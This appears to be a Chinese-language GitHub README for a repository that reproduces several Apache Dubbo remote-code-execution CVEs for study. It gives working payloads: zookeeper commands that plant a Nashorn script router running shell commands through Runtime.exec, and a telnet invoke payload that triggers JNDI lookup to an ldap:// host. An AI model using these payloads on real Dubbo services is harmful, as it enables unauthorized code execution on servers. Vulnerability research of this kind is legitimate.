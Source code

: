 # Apache Dubbo系列漏洞研究
## 包含漏洞
- [x] Apache Dubbo 反序列化代码执行（CVE-2020-1948）
- [x] Apache Dubbo 反序列化代码执行（CVE-2021-43297）
- [x] Apache Dubbo 反序列化代码执行（CVE-2021-30179）
- [x] Apache Dubbo Telnet handler 代码执行（CVE-2021-32824）
- [x] Apache Dubbo 反序列化代码执行（CVE-2021-25641）
- [x] Apache Dubbo Nashorn Script 代码执行（CVE-2021-30181）
- [x] Apache Dubbo 反序列化代码执行（CVE-2023-23638）
- [ ] Apache Dubbo YAML 反序列化漏洞(CVE-2021-30180)

## 说明
### 关于漏洞
1、**Apache Dubbo Nashorn Script 代码执行（CVE-2021-30181）**  
该漏洞连上zookeeper打payload就行，具体的做法是执行zookeeper命令  
```shell
create /dubbo/[provider interface]/routers/[your payload]
```
关于payload内容，首先你需要从一个consumer中获得模板，可以执行下面的命令
```shell
ls /dubbo/[provider interface]/consumers
```
结果可能有多个，选一个就行，获得模板后记得替换开头的consumer为router，category=consumers也记得替换为category=routers。使用获得的模板拼接执行命令的语句
```shell
# linux
&route=script&type=javascript&rule=s=[3];s[0]='/bin/bash';s[1]='-c';s[2]='linux command';java.lang.Runtime.getRuntime().exec(s);
# windows
&route=script&type=javascript&rule=s=[3];s[0]='cmd.exe';s[1]='/C';s[2]='windows command';java.lang.Runtime.getRuntime().exec(s);
```

2、**Apache Dubbo Telnet handler 代码执行（CVE-2021-32824）**  
telnet连上dubbo provider打payload即可
```shell
invoke [provider_interface].[method_name]({'class':'org.apache.xbean.propertyeditor.JndiConverter','asText':'ldap://{dns_log}/#FoolBoy'},'test','test'})
```
使用时注意，调用方法时参数个数要一致，比如我的例子就有三个参数

3、**Apache Dubbo YAML 反序列化漏洞(CVE-2021-30180)**  
该漏洞一样需要控制zookeeper，我并没有找到直接在zookeeper上执行命令的利用方式  
整体来讲可以利用dubbo admin添加标签路由来进行攻击，但是直接在zookeeper通过命令的方式  
嫌麻烦（因为已经搭建了老板的dubbo admin了，并不能直接编写yaml）

### 关于依赖
大部分漏洞使用Apache Dubbo 2.7.3就可以复现，  
Apache Dubbo 反序列化代码执行（CVE-2023-23638）使用的2.7.20复现的，使用时可按需切换

## 参考与引用
- [https://www.cnblogs.com/suyu7/p/14928710.html](https://www.cnblogs.com/suyu7/p/14928710.html)
- [https://xz.aliyun.com/t/12333#toc-1](https://xz.aliyun.com/t/12333#toc-1)
- [https://www.cnblogs.com/nice0e3/p/15692979.html#cve-2020-11995](https://www.cnblogs.com/nice0e3/p/15692979.html#cve-2020-11995)

## 鸣谢
感谢各位前辈大佬的分析，让我可以系统地学习Apache Dubbo系列漏洞

## 其他
若真有后来者使用我的仓库进行学习，建议认证打断点调试弄清楚每一个漏洞的原理，  
而不是当一个脚本小子
